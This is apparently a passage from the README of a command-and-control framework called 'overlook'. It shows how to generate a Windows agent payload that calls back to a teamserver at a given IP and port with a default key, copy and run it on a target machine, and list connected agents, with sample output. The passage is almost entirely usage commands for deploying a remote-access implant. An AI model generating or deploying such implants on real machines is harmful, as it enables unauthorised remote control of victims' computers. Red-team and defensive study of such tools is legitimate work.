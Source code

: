 Generate a Windows executable that will connect back to your teamserver:

```bash
./target/release/client.exe generate-payload \
  --output payload.exe \
  --callback 192.168.1.100 \
  --port 8080 \
  --key default-key-change-in-production
```

This creates:
- `payload.exe`: The agent executable
- `payload.bat`: A batch file that runs the agent with correct parameters

### Deploying Agents

1. **Transfer files to target:**
   - Copy both `payload.exe` and `payload.bat` to your target Windows machine

2. **Run the payload:**
   ```bash
   payload.bat
   ```
   
   The agent will automatically connect back to your teamserver.

### Managing Agents

#### List Connected Agents
```bash
./target/release/client.exe list
```

Or in interactive mode:
```
overlook> list
```

**Note**: The `list` command now only shows agents that are truly connected and ready to receive commands. Agents that appear in the session file but don't have active connections are automatically filtered out.

Output example:
```
[*] Listing connected agents...
[*] Total online agents: 1
====================================================================================================
Agent ID                             Hostname             IP Address      Status     Sleep(ms)    Jitter   Note      
====================================================================================================
9cf1ca6e-d340-48a8-8879-e471a92574ec DESKTOP-VCLG590      127.0.0.1       Online     -            -      
====================================================================================================
```
